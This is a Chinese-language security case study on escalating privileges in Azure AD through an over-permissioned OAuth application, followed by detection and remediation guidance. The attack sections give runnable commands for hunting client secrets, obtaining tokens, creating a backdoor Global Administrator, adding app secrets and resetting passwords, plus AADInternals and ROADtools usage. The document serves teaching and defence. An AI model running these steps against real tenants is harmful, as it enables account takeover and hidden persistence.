



## 案例三：Azure AD OAuth权限提升

### 案例概述

本案例还原了一个真实的企业安全事件：某中型企业使用 Azure Active Directory（现 Entra ID）作为统一身份平台，开发团队在注册内部应用时授予了 `User.ReadWrite.All` 等高危应用程序权限，攻击者通过合法获取的低权限凭据，利用过度授权的 OAuth 应用实现了域管级别的权限提升，最终创建后门账户并持久化驻留。

整个攻击链不涉及任何漏洞利用（exploit），完全依赖于配置缺陷和权限管理疏忽——这恰恰是云环境中最常见、最危险的攻击路径。

### 前置知识：Azure AD 与 OAuth 权限模型

#### Azure AD 应用注册架构

Azure AD 中的应用身份体系由三层构成：



| 概念 | 说明 | 类比 |
|------|------|------|
| 应用注册 (App Registration) | 在 Azure AD 中登记的应用身份，拥有唯一的 Application (client) ID | 类似在工商局注册公司 |
| 服务主体 (Service Principal) | 应用在租户中的"代理人"身份，是实际执行操作的主体 | 类似公司的法人代表 |
| 委托权限 (Delegated Permission) | 以登录用户身份调用 API，受用户自身权限约束 | "代表你行事"，权限上限=用户权限 |
| 应用程序权限 (Application Permission) | 以应用自身身份调用 API，不受用户约束 | "以公司名义行事"，权限=应用被授予的全部权限 |
| OAuth 2.0 令牌 | 包含 `scp`（委托）或 `roles`（应用）声明的 JWT | 通行证，上面写着允许做什么 |

#### 关键区分：委托权限 vs 应用程序权限

这是理解本案例的核心：

```text
委托权限 (Delegated)：
  - 令牌中包含 scp 声明，如 "scp": "User.Read"
  - 需要用户登录上下文
  - 权限受用户自身 RBAC 约束
  - 攻击面较小：用户没权限的操作，应用也做不了

应用程序权限 (Application)：
  - 令牌中包含 roles 声明，如 "roles": ["User.ReadWrite.All"]
  - 使用 client_credentials 流程，无需用户参与
  - 权限不受任何用户约束
  - 攻击面极大：应用被授予什么权限就能做什么
```

**本案例的漏洞根源**：开发团队将"应用程序权限" `User.ReadWrite.All` 授予了一个内部 Web 应用，意味着该应用可以不经过任何用户认证，直接读写租户内所有用户对象——包括创建用户、修改密码、加入管理员组。

#### OAuth 2.0 Client Credentials 流程

攻击者利用的是 OAuth 2.0 的 client_credentials 授权流程：



这个流程的危险之处在于：一旦拿到 `client_id` 和 `client_secret`（或证书），攻击者就能完全以应用身份操作，无需任何用户交互。

### 攻击过程详解

#### 阶段一：侦察与应用枚举

攻击者已获得一个低权限 Azure AD 账户（例如通过钓鱼或凭据泄露），首先枚举租户中的应用注册：

```bash
# 登录 Azure CLI
az login --username lowpriv@target.onmicrosoft.com --password 'CompromisedPass1!'

# 查看当前用户上下文
az ad signed-in-user show \
  --query '{name:displayName, email:mail, upn:userPrincipalName}' \
  --output table

# 枚举所有应用注册及其所需的资源访问权限
az ad app list \
  --query '[].{
    Name:displayName,
    AppId:appId,
    Permissions:requiredResourceAccess[].{
      Resource:resourceAppId,
      Access:resourceAccess[].id
    }
  }' --output table
```

**侦察要点**：
- `requiredResourceAccess` 字段列出了应用请求的所有 API 权限
- `resourceAppId` 为 `00000003-0000-0000-c000-000000000000` 时表示 Microsoft Graph
- `resourceAccess` 中 `type` 为 `Role` 表示应用程序权限，`Scope` 表示委托权限

```bash
# 更精确地筛选出拥有应用程序权限的应用
az ad app list --query '[].{
    Name:displayName,
    AppId:appId,
    AppPermissions:requiredResourceAccess[?contains(resourceAccess[].type,`Role`)].resourceAccess[]
  }' --output json

# 输出示例：
# {
#   "Name": "Internal Portal",
#   "AppId": "a1b2c3d4-e5f6-7890-abcd-ef1234567890",
#   "AppPermissions": [
#     {
#       "id": "19dbc75e-c2e2-444c-a770-ec69d8559fc7",  # User.ReadWrite.All
#       "type": "Role"
#     }
#   ]
# }
```

权限 ID 对照（常用高危权限）：

| 权限 ID | 权限名称 | 危险等级 | 说明 |
|----------|----------|----------|------|
| `19dbc75e-c2e2-444c-a770-ec69d8559fc7` | User.ReadWrite.All | 严重 | 读写所有用户对象 |
| `62a82d76-70ea-41e2-9197-370581804d09` | Group.ReadWrite.All | 严重 | 读写所有组及成员 |
| `9a5d68dd-52b0-4cc2-bd40-abcf44ac3a37` | Application.ReadWrite.All | 严重 | 管理所有应用注册 |
| `06b708a9-e830-4db3-a914-8e69da51d44f` | AppRoleAssignment.ReadWrite.All | 严重 | 分配应用权限 |
| `741f803b-c850-494e-b5df-cde4c9adc030` | Directory.ReadWrite.All | 严重 | 读写整个目录 |

#### 阶段二：服务主体分析

确定目标应用后，进一步分析其服务主体：

```bash
# 获取服务主体详情
az ad sp show --id a1b2c3d4-e5f6-7890-abcd-ef1234567890 \
  --query '{
    DisplayName:displayName,
    AppId:appId,
    ObjectId:id,
    AppRoles:appRoles[].{Value:value,DisplayName:displayName,Allowed:allowedMemberTypes},
    Oauth2Permissions:oauth2Permissions[].{Value:value,DisplayName:displayName,AdminConsent:adminConsentDescription}
  }' --output json

# 检查应用已实际被授予的权限（不是请求的，而是已授权的）
az ad sp show --id a1b2c3d4-e5f6-7890-abcd-ef1234567890 \
  --query 'appRoleAssignedTo' --output json

# 或使用 Microsoft Graph API 直接查询
curl -s -H "Authorization: Bearer $(az account get-access-token --resource https://graph.microsoft.com --query accessToken -o tsv)" \
  "https://graph.microsoft.com/v1.0/servicePrincipals/\$filter=appId eq 'a1b2c3d4-e5f6-7890-abcd-ef1234567890'/appRoleAssignments"
```

**关键发现**：
- 服务主体 `Internal Portal` 已被授予 `User.ReadWrite.All` 应用程序权限
- 该权限由全局管理员在某次部署时一次性授权
- 没有任何条件访问策略限制该服务主体的访问来源

#### 阶段三：凭据获取

攻击者需要获取目标应用的凭据才能执行 client_credentials 流程。常见获取路径：

```bash
# 路径1：从应用配置中获取（如泄露的配置文件、环境变量）
# 在已入侵的服务器上搜索
grep -r "client_secret\|ClientSecret\|AADClientSecret" /etc/ /opt/ /home/ 2>/dev/null
grep -r "client_id\|ClientId\|ApplicationId" /etc/ /opt/ /home/ 2>/dev/null

# 路径2：从 Key Vault 中获取（如果攻击者有 Key Vault 读取权限）
az keyvault secret list --vault-name target-kv \
  --query '[].{Name:name,Created:attributes.created}' --output table
az keyvault secret show --vault-name target-kv --name internal-portal-secret \
  --query 'value' -o tsv

# 路径3：从代码仓库中获取（硬编码的密钥）
# 在已入侵的 Git 仓库中搜索
git log --all -p | grep -iE 'client.?secret|password|api.?key' | head -20

# 路径4：从 Azure App Service 配置获取
az webapp config appsettings list --name internal-portal --resource-group prod-rg \
  --query '[].{Name:name,Value:value}' --output table
```

#### 阶段四：令牌获取与权限验证

```bash
# 使用 client_credentials 流程获取访问令牌
TOKEN=$(curl -s -X POST \
  "https://login.microsoftonline.com/target.onmicrosoft.com/oauth2/v2.0/token" \
  -d "grant_type=client_credentials" \
  -d "client_id=a1b2c3d4-e5f6-7890-abcd-ef1234567890" \
  -d "client_secret=YOUR_CLIENT_SECRET" \
  -d "scope=https://graph.microsoft.com/.default" | jq -r '.access_token')

# 解析令牌以确认权限声明
echo $TOKEN | cut -d'.' -f2 | base64 -d 2>/dev/null | jq '{
  aud: .aud,
  roles: .roles,
  iss: .iss,
  exp: (.exp | todate)
}'

# 输出：
# {
#   "aud": "00000003-0000-0000-c000-000000000000",
#   "roles": ["User.ReadWrite.All"],
#   "iss": "https://sts.windows.net/target-tenant-id/",
#   "exp": "2024-01-15T12:00:00Z"
# }

# 验证权限——列出所有用户
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/users?\$select=displayName,userPrincipalName,mail,id" \
  | jq '.value[] | {name:displayName, upn:userPrincipalName, id:id}'
```

#### 阶段五：权限利用与持久化

```bash
# 创建后门用户（注意：需要 User.ReadWrite.All 权限）
BACKDOOR_USER=$(curl -s -X POST \
  "https://graph.microsoft.com/v1.0/users" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "accountEnabled": true,
    "displayName": "IT Support Service",
    "mailNickname": "it-support-svc",
    "userPrincipalName": "it-support-svc@target.onmicrosoft.com",
    "passwordProfile": {
      "forceChangePasswordNextSignIn": false,
      "password": "C0mpl3x!P@ss2024"
    },
    "jobTitle": "IT Support Engineer",
    "department": "Information Technology"
  }' | jq -r '.id')

echo "Backdoor user created: $BACKDOOR_USER"

# 获取全局管理员组 ID
ADMIN_GROUP=$(curl -s -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/groups?\$filter=displayName eq 'Global Administrators'&\$select=id" \
  | jq -r '.value[0].id')

# 将后门用户添加到全局管理员组
curl -s -X POST \
  "https://graph.microsoft.com/v1.0/groups/$ADMIN_GROUP/members/\$ref" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d "{\"@odata.id\":\"https://graph.microsoft.com/v1.0/directoryObjects/$BACKDOOR_USER\"}"

# 验证：检查后门用户的组成员身份
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/users/$BACKDOOR_USER/memberOf" \
  | jq '.value[] | {group:displayName, type:@odata.type}'
```

**进阶持久化手段**：

```bash
# 手法1：为现有应用添加新的客户端密钥（避免创建新用户）
curl -s -X POST \
  "https://graph.microsoft.com/v1.0/applications/<app-object-id>/addPassword" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "passwordCredential": {
      "displayName": "Emergency Recovery Key",
      "endDateTime": "2025-12-31T00:00:00Z"
    }
  }'

# 手法2：授予新的高危权限到已有应用
curl -s -X PATCH \
  "https://graph.microsoft.com/v1.0/applications/<app-object-id>" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "requiredResourceAccess": [
      {
        "resourceAppId": "00000003-0000-0000-c000-000000000000",
        "resourceAccess": [
          {"id":"19dbc75e-c2e2-444c-a770-ec69d8559fc7","type":"Role"},
          {"id":"62a82d76-70ea-41e2-9197-370581804d09","type":"Role"},
          {"id":"9a5d68dd-52b0-4cc2-bd40-abcf44ac3a37","type":"Role"}
        ]
      }
    ]
  }'

# 手法3：修改现有用户密码（不需要创建新用户）
curl -s -X PATCH \
  "https://graph.microsoft.com/v1.0/users/<target-user-id>" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "passwordProfile": {
      "forceChangePasswordNextSignIn": false,
      "password": "Newyour_password!"
    }
  }'
```

### 工具生态

#### 攻击工具

| 工具 | 用途 | 安装/使用 |
|------|------|-----------|
| Azure CLI (`az`) | Azure 命令行管理，枚举和操作 Azure AD 资源 | `apt install azure-cli` 或官方安装脚本 |
| Microsoft Graph Explorer | 在线调试 Graph API 调用 | https://developer.microsoft.com/graph/graph-explorer |
| AADInternals (PowerShell) | Azure AD 攻击专项工具集，支持令牌操作、后门、同步攻击 | `Install-Module AADInternals` |
| ROADtools | Azure AD 数据库化枚举与分析 | `pip install roadtools` + `roadlib` |
| Stormspotter | Azure AD 关系图可视化（攻击路径分析） | GitHub: Azure/Stormspotter |
| TokenTactics | JWT 令牌操作与刷新令牌滥用 | GitHub: rapid7/TokenTactics |

#### 使用 ROADtools 进行深度枚举

```bash
# 安装
pip install roadtools roadlib

# 使用已获取的令牌认证
roadrecon auth --access-token $TOKEN

# 收集租户完整数据
roadrecon gather

# 启动 Web UI 分析
roadrecon gui
# 访问 http://localhost:5001 浏览完整的 Azure AD 对象关系图

# 导出高危应用列表
roadrecon plugin applications --output high-risk-apps.json
```

#### 使用 AADInternals 进行高级攻击

```powershell
# 安装
Install-Module AADInternals -Force

# 使用获取的令牌
$Token = "eyJ0..."
$Headers = @{Authorization = "Bearer $Token"}

# 枚举所有拥有应用程序权限的服务主体
Get-AADIntServicePrincipals | Where-Object {
    $_.appRoles.Count -gt 0
} | Select-Object displayName, appId, appRoles

# 为服务主体添加证书凭据（比密码更隐蔽）
Add-AADIntApplicationPassword -ObjectId <app-object-id> -DisplayName "Recovery"

# 使用 SAML 令牌进行 Golden SAML 攻击（高级持久化）
# 需要 ADFS 证书，但一旦获取可在任何设备上以任何用户身份认证
```

### 漏洞分析

#### 发现的漏洞

| 漏洞 | 严重性 | 描述 | 影响 |
|------|--------|------|------|
| OAuth 应用程序权限过度授权 | 严重 | 应用被授予 `User.ReadWrite.All` 应用程序权限，可读写全部用户 | 可创建管理员、修改任意用户密码 |
| 缺乏权限审查机制 | 高 | 未建立定期审查应用权限的流程 | 过期/过度权限长期存在 |
| 无条件访问策略 | 高 | 未限制应用的访问来源 IP、设备合规性 | 攻击者可从任意位置使用凭据 |
| 凭据管理不善 | 高 | 客户端密钥可能硬编码或明文存储 | 凭据泄露后无法及时发现 |
| 缺乏审计告警 | 中 | 未对异常 Graph API 调用设置告警 | 攻击行为不会触发告警 |
| 无 PIM 特权身份管理 | 中 | 高权限操作未使用即时提权机制 | 权限始终可用，无需审批 |

#### 根因分析



### 防御与检测

#### 检测指标（IoC）

```bash
# 检测可疑的应用程序令牌使用
# 查询 Azure AD 登录日志中的非交互式登录
az monitor log-analytics query \
  --workspace <workspace-id> \
  --analytics-query '
    AADServicePrincipalSignInLogs
    | where TimeGenerated > ago(7d)
    | where ResultType == "0"
    | where IPAddress !in ("known-ip-1", "known-ip-2")
    | project TimeGenerated, ServicePrincipalName, IPAddress, 
              AppDisplayName, ResourceDisplayName, Location
    | order by TimeGenerated desc
  ' --output table

# 检测新创建的高权限用户
az monitor log-analytics query \
  --workspace <workspace-id> \
  --analytics-query '
    AuditLogs
    | where OperationName == "Add user"
    | where Result == "success"
    | extend UPN = tostring(parse_json(tostring(InitiatedBy.app)).displayName)
    | project TimeGenerated, UPN, TargetResources
    | order by TimeGenerated desc
  ' --output table

# 检测用户被添加到管理员组
az monitor log-analytics query \
  --workspace <workspace-id> \
  --analytics-query '
    AuditLogs
    | where OperationName == "Add member to group"
    | extend GroupName = tostring(TargetResources[0].displayName)
    | where GroupName contains "Admin" or GroupName contains "Global"
    | project TimeGenerated, InitiatedBy, GroupName, TargetResources
  ' --output table
```

#### 防御措施

**立即执行（紧急）**：

1. **审计并收回过度权限**
   ```bash
   # 列出所有拥有应用程序权限的服务主体
   az ad sp list --all --query '[].{
     Name:displayName,
     AppId:appId,
     AppRoles:appRoleAssignments[].appRoleId
   }' --output json

   # 撤销指定应用的应用程序权限
   az ad sp app-role assignment delete \
     --id <service-principal-id> \
     --assignment <assignment-id>
   ```

2. **启用条件访问策略限制应用访问**
   ```bash
   # 创建条件访问策略：限制服务主体只能从已知 IP 访问
   az rest --method POST \
     --url "https://graph.microsoft.com/v1.0/identity/conditionalAccess/policies" \
     --body '{
       "displayName": "Restrict Service Principal Access",
       "state": "enabled",
       "conditions": {
         "clientAppTypes": ["servicePrincipal"],
         "servicePrincipalRiskLevels": ["high", "medium"]
       },
       "grantControls": {
         "operator": "OR",
         "builtInControls": ["block"]
       }
     }'
   ```

3. **轮换所有客户端密钥和证书**
   ```bash
   # 列出应用的所有密码凭据
   az ad app credential list --id <app-id> --output table

   # 删除旧密钥
   az ad app credential delete --id <app-id> --key-id <key-id>

   # 生成新密钥
   az ad app credential reset --id <app-id> --years 1
   ```

**短期执行（1-4周）**：

4. **实施最小权限原则**
   - 将 `User.ReadWrite.All` 降级为 `User.Read.All`（只读）
   - 如需写操作，使用委托权限代替应用程序权限
   - 创建专用的安全组，通过组成员身份控制访问

5. **启用 PIM（特权身份管理）**
   ```bash
   # 为目录角色启用 PIM
   az rest --method POST \
     --url "https://graph.microsoft.com/v1.0/roleManagement/directory/roleEligibilityScheduleRequests" \
     --body '{
       "action": "adminAssign",
       "principalId": "<user-id>",
       "roleDefinitionId": "<role-definition-id>",
       "directoryScopeId": "/",
       "scheduleInfo": {
         "startDateTime": "2024-01-15T00:00:00Z",
         "expiration": {
           "type": "afterDateTime",
           "endDateTime": "2024-06-15T00:00:00Z"
         }
       }
     }'
   ```

6. **配置审计告警**
   ```bash
   # 创建告警规则：检测异常的 Graph API 调用
   az monitor scheduled-query create \
     --name "Suspicious Graph API Activity" \
     --resource-group <rg> \
     --scopes <workspace-id> \
     --condition "count > 100" \
     --condition-query '
       AADServicePrincipalSignInLogs
       | where ResourceDisplayName == "Microsoft Graph"
       | where TimeGenerated > ago(1h)
     '
   ```

**长期执行（1-3月）**：

7. **建立应用权限治理流程**
   - 所有新应用权限申请需要安全团队审批
   - 每季度自动扫描并报告高危权限
   - 建立权限申请-审批-授权-审计的完整生命周期

8. **实施应用凭据管理**
   - 使用 Azure Key Vault 集中管理所有客户端密钥
   - 启用密钥自动轮换策略
   - 禁止在代码和配置文件中硬编码凭据

### 真实世界案例参考

本案例的攻击模式在真实世界中被多次验证：

**SolarWinds / NOBELIUM 攻击（2020）**：攻击者入侵 SolarWinds Orion 供应链后，利用获取的 Azure AD 凭据创建了具有高权限的 OAuth 应用，通过 Graph API 访问了受害组织的电子邮件和文件。微软披露攻击者修改了 OAuth 应用的 `requiredResourceAccess`，增加了 `Mail.Read`、`User.Read` 等权限。

**Solorigate 后续攻击（2021）**：NOBELIUM 继续利用 OAuth 应用权限提升攻击非政府组织 (NGO)，通过入侵邮件账户后修改应用权限来实现持久化。

**Microsoft Storm-0558（2023）**：中国威胁行为者利用获取的 Microsoft 常用签名密钥伪造了 Azure AD OAuth 令牌，访问了约 25 个组织的 Exchange Online 邮箱。该事件暴露了 Azure AD 令牌签发机制的系统性风险。

### 常见误区

| 误区 | 事实 | 纠正方法 |
|------|------|----------|
| "应用程序权限和委托权限差不多" | 应用程序权限绕过所有用户级限制，危险性远高于委托权限 | 优先使用委托权限，仅在无用户上下文时使用应用权限 |
| "第三方应用需要高权限才能工作" | 大多数第三方应用可以通过委托权限 + 适当的角色分配完成所需操作 | 与供应商确认最小权限集，拒绝过度授权 |
| "密钥轮换太麻烦，用长期密钥就行" | 泄露的长期密钥是最高频的攻击向量之一 | 使用证书代替密钥，实施自动轮换，或使用托管标识 |
| "Azure AD 默认配置足够安全" | 默认配置不包含条件访问、PIM、审计告警等关键防护 | 主动启用安全功能，不依赖默认配置 |
| "审计日志太多没人看" | 无人看的审计日志等于没有审计 | 配置自动化告警规则，关键事件实时通知 |
| "创建了条件访问就安全了" | 条件访问策略配置不当（如排除了关键用户）仍然无效 | 定期审查策略覆盖范围，确保无遗漏 |

### 进阶内容：攻击路径分析

使用 Stormspotter 可视化 Azure AD 对象关系，识别攻击路径：

```bash
# 安装 Stormspotter
git clone https://github.com/Azure/Stormspotter.git
cd Stormspotter
docker-compose up -d

# 使用收集的令牌登录
python3 stormcollector/stormcollector.py \
  --token $TOKEN \
  --tenant target.onmicrosoft.com

# 在 Web UI (http://localhost:9090) 中分析攻击路径
# 工具会自动发现：
# 低权限用户 -> 拥有高权限应用凭据 -> 应用可管理用户 -> 全局管理员
```

**手动攻击路径推理**：

```text
已知: lowpriv@target.onmicrosoft.com (普通用户)
      可枚举 az ad app list (读取权限)

目标: Global Administrator

路径:
  1. lowpriv 用户枚举发现 Internal Portal 应用拥有 User.ReadWrite.All
  2. 通过代码仓库/配置文件泄露获取 client_secret
  3. 使用 client_credentials 流程获取应用令牌
  4. 使用应用令牌创建后门用户
  5. 将后门用户加入 Global Administrators 组
  6. 使用后门账户登录 Azure Portal 完全控制租户

关键节点: 步骤 2 是凭据泄露，步骤 3-5 是权限滥用
防御断点: 
  - 步骤 1: 限制应用枚举权限
  - 步骤 2: Key Vault + 托管标识
  - 步骤 3: 条件访问策略限制
  - 步骤 4: PIM 即时提权
  - 步骤 5: 审计告警实时通知
```

### 总结

Azure AD OAuth 权限提升的核心教训：

1. **最小权限是第一原则**：应用程序权限应尽量避免，必须使用时选择最小范围
2. **凭据管理是生命线**：任何客户端密钥泄露都可能导致完全控制
3. **默认配置不够安全**：条件访问、PIM、审计告警需要主动启用
4. **持续监控是必须的**：权限滥用不会产生明显异常，只有日志分析才能发现
5. **攻击不需要漏洞利用**：配置缺陷足以完成完整的攻击链，这比利用漏洞更隐蔽、更持久
